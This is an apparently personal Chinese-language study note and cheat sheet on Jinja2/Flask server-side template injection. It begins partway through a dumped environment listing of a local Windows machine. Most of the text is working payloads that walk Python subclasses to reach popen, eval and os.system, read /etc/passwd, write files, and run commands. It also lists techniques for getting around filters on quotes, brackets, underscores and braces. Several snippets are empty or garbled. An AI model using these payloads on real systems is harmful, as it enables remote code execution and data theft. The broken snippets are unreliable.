Files\\Git\\cmd;C:\\Program Files\\dotnet\\;C:\\Program Files\\nodejs\\;C:\\Program Files (x86)\\Windows Kits\\10\\Windows Performance Toolkit\\;C:\\Users\\sunset\\AppData\\Local\\Programs\\Python\\Python311\\Scripts\\;C:\\Users\\sunset\\AppData\\Local\\Programs\\Python\\Python311\\;C:\\Users\\sunset\\AppData\\Local\\Microsoft\\WindowsApps;C:\\Program Files\\JetBrains\\PyCharm 2024.1.6\\bin;;C:\\Program Files\\mingw64\\bin;C:\\Users\\sunset\\AppData\\Local\\Programs\\Microsoft VS Code\\bin;C:\\phpstudy_pro\\Extensions\\php\\php7.3.4nts;C:\\Users\\sunset\\.dotnet\\tools;C:\\Users\\sunset\\AppData\\Local\\GitHubDesktop\\bin;C:\\Users\\sunset\\AppData\\Roaming\\npm', 'PATHEXT': '.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC', 'PHPSTORM_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\phpstorm.vmoptions', 'PROCESSOR_ARCHITECTURE': 'AMD64', 'PROCESSOR_IDENTIFIER': 'Intel64 Family 6 Model 151 Stepping 2, GenuineIntel', 'PROCESSOR_LEVEL': '6', 'PROCESSOR_REVISION': '9702', 'PROGRAMDATA': 'C:\\ProgramData', 'PROGRAMFILES': 'C:\\Program Files', 'PROGRAMFILES(X86)': 'C:\\Program Files (x86)', 'PROGRAMW6432': 'C:\\Program Files', 'PROMPT': '(.venv) $P$G', 'PSMODULEPATH': 'C:\\Program Files\\WindowsPowerShell\\Modules;C:\\Windows\\system32\\WindowsPowerShell\\v1.0\\Modules', 'PUBLIC': 'C:\\Users\\Public', 'PYCHARM': 'C:\\Program Files\\JetBrains\\PyCharm 2024.1.6\\bin;', 'PYCHARM_DISPLAY_PORT': '63342', 'PYCHARM_HOSTED': '1', 'PYCHARM_INTERACTIVE_PLOTS': '1', 'PYCHARM_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\pycharm.vmoptions', 'PYTHONIOENCODING': 'GBK', 'PYTHONPATH': 'D:\\System\\Downloads\\SSTI\\SSTI Study;C:/Program Files/JetBrains/PyCharm 2024.1.6/plugins/python/helpers/pycharm_matplotlib_backend;C:/Program Files/JetBrains/PyCharm 2024.1.6/plugins/python/helpers/pycharm_display', 'PYTHONUNBUFFERED': '1', 'RIDER_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\rider.vmoptions', 'RUBYMINE_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\rubymine.vmoptions', 'RUSTROVER_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\rustrover.vmoptions', 'SESSIONNAME': 'Console', 'STUDIO_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\studio.vmoptions', 'SYSTEMDRIVE': 'C:', 'SYSTEMROOT': 'C:\\Windows', 'TEMP': 'C:\\Users\\sunset\\AppData\\Local\\Temp', 'TMP': 'C:\\Users\\sunset\\AppData\\Local\\Temp', 'USERDOMAIN': 'DESKTOP-OO4DPSM', 'USERDOMAIN_ROAMINGPROFILE': 'DESKTOP-OO4DPSM', 'USERNAME': 'sunset', 'USERPROFILE': 'C:\\Users\\sunset', 'VBOX_MSI_INSTALL_PATH': 'C:\\Program Files\\Oracle\\VirtualBox\\', 'VIRTUAL_ENV': 'D:\\System\\Downloads\\SSTI\\SSTI Study\\.venv', 'WEBIDE_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\webide.vmoptions', 'WEBSTORM_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\webstorm.vmoptions', 'WINDIR': 'C:\\Windows', 'ZES_ENABLE_SYSMAN': '1', '_OLD_VIRTUAL_PATH': 'C:\\Program Files\\Common Files\\Oracle\\Java\\javapath;C:\\Program Files (x86)\\VMware\\VMware Workstation\\bin\\;C:\\Windows\\system32;C:\\Windows;C:\\Windows\\System32\\Wbem;C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\;C:\\Windows\\System32\\OpenSSH\\;C:\\Program Files\\Bandizip\\;C:\\Program Files (x86)\\NVIDIA Corporation\\PhysX\\Common;C:\\Program Files\\NVIDIA Corporation\\NVIDIA NvDLISR;C:\\Program Files\\mingw64\\bin;C:\\phpstudy_pro\\Extensions\\php\\php8.0.2nts;C:\\phpstudy_pro\\Extensions\\php\\php7.3.4nts;C:\\Program Files\\010 Editor;C:\\Program Files\\Git\\cmd;C:\\Program Files\\dotnet\\;C:\\Program Files\\nodejs\\;C:\\Program Files (x86)\\Windows Kits\\10\\Windows Performance Toolkit\\;C:\\Users\\sunset\\AppData\\Local\\Programs\\Python\\Python311\\Scripts\\;C:\\Users\\sunset\\AppData\\Local\\Programs\\Python\\Python311\\;C:\\Users\\sunset\\AppData\\Local\\Microsoft\\WindowsApps;C:\\Program Files\\JetBrains\\PyCharm 2024.1.6\\bin;;C:\\Program Files\\mingw64\\bin;C:\\Users\\sunset\\AppData\\Local\\Programs\\Microsoft VS Code\\bin;C:\\phpstudy_pro\\Extensions\\php\\php7.3.4nts;C:\\Users\\sunset\\.dotnet\\tools;C:\\Users\\sunset\\AppData\\Local\\GitHubDesktop\\bin;C:\\Users\\sunset\\AppData\\Roaming\\npm', '_OLD_VIRTUAL_PROMPT': '$P$G', 'FLASK_RUN_FROM_CLI': 'true', 'WERKZEUG_SERVER_FD': '708'}), 'F_OK': 0, 'R_OK': 4, 'W_OK': 2, 'X_OK': 1, 'TMP_MAX': 2147483647, 'O_RDONLY': 0, 'O_WRONLY': 1, 'O_RDWR': 2, 'O_APPEND': 8, 'O_CREAT': 256, 'O_EXCL': 1024, 'O_TRUNC': 512, 'O_BINARY': 32768, 'O_TEXT': 16384, 'O_NOINHERIT': 128, 'O_SHORT_LIVED': 4096, 'O_TEMPORARY': 64, 'O_RANDOM': 16, 'O_SEQUENTIAL': 32, 'EX_OK': 0, 'P_WAIT': 0, 'P_NOWAIT': 1, 'P_NOWAITO': 3, 'P_OVERLAY': 2, 'P_DETACH': 4, 'error': <class 'OSError'>, 'stat_result': <class 'os.stat_result'>, 'statvfs_result': <class 'os.statvfs_result'>, 'terminal_size': <class 'os.terminal_size'>, 'DirEntry': <class 'nt.DirEntry'>, 'times_result': <class 'nt.times_result'>, 'uname_result': <class 'nt.uname_result'>, '_exit': <built-in function _exit>, 'path': <module 'ntpath' (frozen)>, 'curdir': '.', 'pardir': '..', 'sep': '\\', 'pathsep': ';', 'defpath': '.;C:\\bin', 'extsep': '.', 'altsep': '/', 'devnull': 'nul', 'supports_dir_fd': set(), 'supports_effective_ids': set(), 'supports_fd': {<built-in function stat>, <built-in function truncate>}, 'supports_follow_symlinks': {<built-in function stat>}, 'SEEK_SET': 0, 'SEEK_CUR': 1, 'SEEK_END': 2, 'makedirs': <function makedirs at 0x000001E31BF256C0>, 'removedirs': <function removedirs at 0x000001E31BF304A0>, 'renames': <function renames at 0x000001E31BF31B20>, 'walk': <function walk at 0x000001E31BF31BC0>, '_walk': <function _walk at 0x000001E31BF31C60>, 'execl': <function execl at 0x000001E31BF31D00>, 'execle': <function execle at 0x000001E31BF31DA0>, 'execlp': <function execlp at 0x000001E31BF31E40>, 'execlpe': <function execlpe at 0x000001E31BF31EE0>, 'execvp': <function execvp at 0x000001E31BF31F80>, 'execvpe': <function execvpe at 0x000001E31BF32020>, '_execvpe': <function _execvpe at 0x000001E31BF320C0>, 'get_exec_path': <function get_exec_path at 0x000001E31BF32160>, 'MutableMapping': <class 'collections.abc.MutableMapping'>, 'Mapping': <class 'collections.abc.Mapping'>, '_Environ': <class 'os._Environ'>, 'getenv': <function getenv at 0x000001E31BF32200>, 'supports_bytes_environ': False, 'fsencode': <function _fscodec.<locals>.fsencode at 0x000001E31BF32CA0>, 'fsdecode': <function _fscodec.<locals>.fsdecode at 0x000001E31BF32D40>, 'spawnl': <function spawnl at 0x000001E31BF32C00>, 'spawnle': <function spawnle at 0x000001E31BF32DE0>, 'popen': <function popen at 0x000001E31BF32E80>, '_wrap_close': <class 'os._wrap_close'>, 'fdopen': <function fdopen at 0x000001E31BF32F20>, '_fspath': <function _fspath at 0x000001E31BF33380>, 'PathLike': <class 'os.PathLike'>, '_AddedDllDirectory': <class 'os._AddedDllDirectory'>, 'add_dll_directory': <function add_dll_directory at 0x000001E31BF33420>}
```

此时可以可以在网页上看到各种各样的参数方法函数，这时候利用`popen function` 用来读取文件

```python
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[148].__init__.__globals__['popen']('dir').read()}}
```


### POC总结

1. 用`file` 对象读取文件
    
    ```python
    // ssti.py
    for c in {}.__class__.__bases__[0].__subclasses__():
        if(c.__name__ == "file"):
            print(c)
            print c('test.txt').readline()
    ```
    
    ```python
    <type 'file'>
    This is SSTI TEST
    ```
    
    相当于 ： `print file('test.txt').readline()`
    
    上述代码先通过**`class__`**获取字典对象所属的类，再通过`__base__` `__bases__[0]` 拿到基类，然后使用`__subclasses__()`获取子类列表，在子类列表中直接寻找可以利用的类
    
    我们看一下`file`的子类的内置方法，可以看到有`readline`方法，所以我们能读取文件
    
    ```python
    >>> dir({}.__class__.__bases__[0].__subclasses__()[40])
    ['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
    ```
    
    也可以读取`/etc/passwd`
    
    ```python
    cat ssti.py    
    for c in {}.__class__.__bases__[0].__subclasses__():
        if(c.__name__ == "file"):
            print(c)
            print c('/etc/passwd').readline()
    ```
    
    ```python
    <type 'file'>
    root:x:0:0:root:/root:/usr/bin/zsh
    ```
    
    在使用`jinja2`的语法可以解析：**python3已经移除了file。所以利用file子类文件读取只能在python2中用**
    
    ```python
    
    
    {{ c("/etc/passwd").readlines() }}
    
    
    ```
    
2. 使用内置模块执行命令
    
    ```python
    search = 'os'
    num = -1
    for i in ().__class__.__bases__[0].__subclasses__():
        num += 1
        try:
            if search in i.__init__.__globals__.keys():
                print(i, num)
        except:
            pass 
    ```
    
    ```python
    (<class 'site._Printer'>, 72)
    (<class 'site.Quitter'>, 77)
    ```
    
    在元组位置`72,77`找到了`os`方法，这样就可以构造命令执行`payload`了
    
    ```python
    ().__class__.__bases__[0].__subclasses__()[72].__init__.__globals__['os'].system('whoami')
    ().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].system('whoami')
    ().__class__.__mro__[1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')
    ().__class__.__mro__[1].__subclasses__()[77].__init__.__globals__['os'].system('whoami')
    ```
    
    
    
    **但是只能在python2中用**
    
3. **__builtin__**
    
    > python2 中并没有 __**builtins**__ 这个模块，只有 __**builtin**__ 模块，__**builtins**__ 模块只是在启动 Python 解释器时，解释器为我们自动创建的一个到 __**builtin**__ 模块的引用
    如果是在主模块 **main** 中，__**builtins**__ 直接引用 __**builtin**__ 模块，此时模块名 __**builtins**__ 与模块名 __**builtin**__ 指向的都是同一个模块
    如果不是在主模块中，那么 __**builtins**__ 只是引用了__builtin__.**dict**
    > 
    > 
    > Python3 中，__**builtin__** 模块被命名为builtins
    > 
    
    ```python
    search = '__builtins__'
    num = -1
    for i in ().__class__.__bases__[0].__subclasses__():
        num += 1
        try:
            # print(i.__init__.__globals__.keys())
            if search in i.__init__.__globals__.keys():
                print(i, num)
        except:
            pass
    ```
    
    ```python
    // python 2.7.5
    (<class 'warnings.WarningMessage'>, 59)
    (<class 'warnings.catch_warnings""'>, 60)
    (<class '_weakrefset._IterationGuard'>, 61)
    (<class '_weakrefset.WeakSet'>, 62)
    (<class 'site._Printer'>, 72)
    (<class 'site.Quitter'>, 77)
    (<class 'codecs.IncrementalEncoder'>, 78)
    (<class 'codecs.IncrementalDecoder'>, 79)
    ```
    
    ```python
    // python 3.11.9
    <class '_frozen_importlib._ModuleLock'> 104
    <class '_frozen_importlib._DummyModuleLock'> 105
    <class '_frozen_importlib._ModuleLockManager'> 106
    <class '_frozen_importlib.ModuleSpec'> 107
    <class '_frozen_importlib_external.FileLoader'> 122
    <class '_frozen_importlib_external._NamespacePath'> 123
    <class '_frozen_importlib_external.NamespaceLoader'> 124
    <class '_frozen_importlib_external.FileFinder'> 126
    <class 'codecs.IncrementalEncoder'> 128
    <class 'codecs.IncrementalDecoder'> 129
    <class 'codecs.StreamReaderWriter'> 130
    <class 'codecs.StreamRecoder'> 131
    <class 'os._wrap_close'> 147
    <class 'os._AddedDllDirectory'> 148
    <class '_sitebuiltins.Quitter'> 149
    <class '_sitebuiltins._Printer'> 150
    <class '__future__._Feature'> 152
    <class 'reprlib.Repr'> 177
    <class 'types.DynamicClassAttribute'> 183
    <class 'types._GeneratorWrapper'> 184
    <class 'functools.partialmethod'> 189
    <class 'functools.singledispatchmethod'> 190
    <class 'functools.cached_property'> 191
    <class 'contextlib._GeneratorContextManagerBase'> 194
    <class 'contextlib._BaseExitStack'> 195
    <class '_distutils_hack._TrivialRe'> 197
    <class 'enum.nonmember'> 201
    <class 'enum.member'> 202
    <class 'enum.auto'> 204
    <class 'enum._proto_member'> 205
    <enum 'Enum'> 206
    <class 'enum.verify'> 207
    <class 're._parser.State'> 211
    <class 're._parser.SubPattern'> 212
    <class 're._parser.Tokenizer'> 213
    <class 're.Scanner'> 214
    <class 'tokenize.Untokenizer'> 215
    <class 'textwrap.TextWrapper'> 216
    <class 'traceback.FrameSummary'> 218
    <class 'traceback._ExceptionPrintContext'> 219
    <class 'traceback.TracebackException'> 220
    ```
    
    `python2`和`python3`的`payload`都一样
    
    ```python
    // python 2
    ().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
    // python 3
    ().__class__.__bases__[0].__subclasses__()[104].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
    
    ```
    
    实际在Flask中注入
    
    ```python
    # vulnhub 搭建的环境
    http://192.168.111.162:8000/?name=
    
    
    {{c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
    
    
    ```
    
    
    
    ```python
    # 不使用 for 标签
    http://127.0.0.1:5000/test?{{().__class__.__bases__[0].__subclasses__()[104].__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}
    // or 
    http://127.0.0.1:5000/test?{{().__class__.__bases__[0].__subclasses__()[104].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
    ```
    

### 基本Payload

```python
# 实际上是一个列表，所以可以使用pop()等方法
[].__class__.__bases__[0].__subclasses__()
# 获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,import等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
#文件操作
{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}
#windows下的os命令,118是欧 os.warp
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()

```

### 一些WAF绕过

1. **过滤 [**
    
    ```python
    #getitem、pop
    ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
    ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.__globals__.__getitem__('popen')('ls').read()
    ```
    
2. **过滤引号**
    
    ```python
    # request 方法
    ## get
    ?name={{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.args.popen](request.args.cmd).read()}}&popen=popen&cmd=cat /flag
    ## post
    {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
    ## cookies
    GET /?name={{%20().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.cookies.popen](request.cookies.cmd).read()%20}} HTTP/1.1
    cookie: popen=popen;cmd=cat /flag
    ## value
    {{().__class__.__mro__[1].__subclasses__()[407](request.values.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag
    ```
    
3. **过滤下划线**
    
    ```python
    {{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
    //
    # URL
    /?name={{()|attr(request.cookies.p1)|attr(request.cookies.p2)|attr(request.cookies.p3)()|attr(request.cookies.p4)(132)|attr(request.cookies.p5)|attr(request.cookies.p6)|attr(request.cookies.p7)(request.cookies.popen)(request.cookies.cmd)|attr(request.cookies.read)()}}
    #cookie
    cookie: p1=__class__;p2=__base__;p3=__subclasses__;p4=pop;p5=__init__;p6=__globals__;p7=__getitem__;popen=popen;cmd=cat /flag;read=read
    ```
    
4. **过滤花括号**
    
    ```python
    #用标记
    1
    # 假设序号为60子类能调用popen函数，则payload：
    
    ```
    
5. **利用示例：**
    
    ```python
    `
    
      
      
        
          {{ b['eval']('__import__("os").popen("id").read()') }}         //popen的参数就是要执行的命令
        
      
      
    
    *`
    ```
    

### jinja 特性 Payload

1. 通过过滤器构造
    
    > `select` 是 Jinja 提供的过滤器，用于筛选一个可迭代对象中的元素。它返回一个生成器对象，而不是直接返回列表。
    > 
    
    > `string` 迭代器将结果转换为字符串
    > 
    
    ```python
    ()|select|string
    结果如下
    <generator object select_or_reject at 0x0000022717FF33C0>
    ```
    
    那么可以 
    
    ```python
    (()|select|string|list).pop(24) # _ 
    (()|select|string)[24]~ # _
    ```
    
2. 使用`dict`和`join`构造关键字
    
    ```python
    dict(__clas=a,s__=b)|join
    __class__
    ```
    
    为什么能把变成`__class__`呢？首先打印
    
    ```python
    dict(__clas=a,s__=b)
    {'po': Undefined, 'p': Undefined}
    ```
    
    - 字典 `{'po': Undefined, 'p': Undefined}`，默认迭代的是键 `po` 和 `p`。
    - 使用 `join` 时，它会将键拼接为字符串，因此结果是 `pop` （来自于`GPT`）
3. 构造数字
    
    ```python
    
    
    // 从而 cc=2
    ```
    
    为什么等于`2`呢？和上边差不多，`dict(ee=a)|join`的结果是`ee` 然后再经过计算`count` 个数是我`2`，所以是`2`
    
4. 使用 `~` 来拼接
    
    ```python
    {{""[a~b]}}  --> {{""['__class__']}}
    ```